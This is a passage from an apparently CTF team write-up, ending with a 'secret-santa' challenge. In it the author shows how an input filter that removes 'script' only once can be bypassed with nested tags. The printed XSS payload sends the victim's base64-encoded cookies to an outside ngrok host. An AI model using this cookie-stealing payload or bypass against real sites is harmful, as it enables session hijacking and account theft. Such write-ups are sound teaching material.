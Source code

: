 <center><img src="/images/unbreakable-2021-team-writeup/see-flag.png"></center>
</div>

**Flag:** Find it in the image above :P

## secret-santa {#secret-santa}
{% highlight bash %}
Secret Santa CTF Challenge.

Format flag: CTF{sha256}
{% endhighlight %}

After testing a few payloads, I noticed that the script that filtered the input removed "script" only once. That means we can trigger an XSS by using the following payload:

{% highlight html %}
<scSCRIPTript> document.location.href = "http://abe1c1e00b44.ngrok.io/?" + btoa(document.cookie); </scSCRIPTript>
{% endhighlight %}
